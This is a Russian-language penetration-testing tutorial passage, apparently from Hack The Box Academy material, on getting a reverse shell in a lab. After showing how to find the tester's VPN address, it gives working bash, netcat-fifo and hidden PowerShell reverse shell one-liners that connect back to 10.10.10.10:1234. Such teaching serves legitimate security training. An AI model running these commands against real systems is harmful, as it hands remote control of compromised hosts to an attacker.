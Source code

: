 Теперь, когда у нас есть прослушиватель netcat, ожидающий подключения, мы можем выполнить команду обратной оболочки, которая подключается к нам.

### **Connect Back IP**

Однако сначала нам нужно найти IP-адрес нашей системы, чтобы отправить нам обратное соединение. Мы можем найти наш IP-адрес с помощью следующей команды:

```text
spike@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

В нашем примере интересующий нас IP находится под tun0, это та же сеть HTB, к которой мы подключились через нашу VPN.

{% hint style="info" %}
Мы подключаемся к IP-адресу в tun0, потому что мы можем подключаться к ящикам HackTheBox только через VPN-соединение, так как у них нет подключения к Интернету, и поэтому они не могут подключиться к нам через Интернет с помощью eth0. В реальном пентесте вы можете быть напрямую подключены к той же сети или выполнять внешний тест на проникновение, поэтому вы можете подключиться через адаптер eth0 или аналогичный.
{% endhint %}

### **Reverse Shell Command**

Команда, которую мы выполняем, зависит от того, в какой операционной системе работает взломанный хост, например, Linux или Windows, и от того, к каким приложениям и командам мы можем получить доступ. На странице [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) есть полный список команд обратной оболочки, которые мы можем использовать, которые охватывают широкий спектр опций в зависимости от нашего скомпрометированного хоста.

Некоторые команды обратной оболочки более надежны, чем другие, и обычно их можно попытаться получить обратное соединение. Приведенные ниже команды являются надежными командами, которые мы можем использовать для получения обратного соединения для bash на скомпрометированных хостах Linux и Powershell на скомпрометированных хостах Windows:

```text
bash -c 'bash -i >& /dev/TCP/10.10.10.10/1234 0>&1'
```

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```text
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
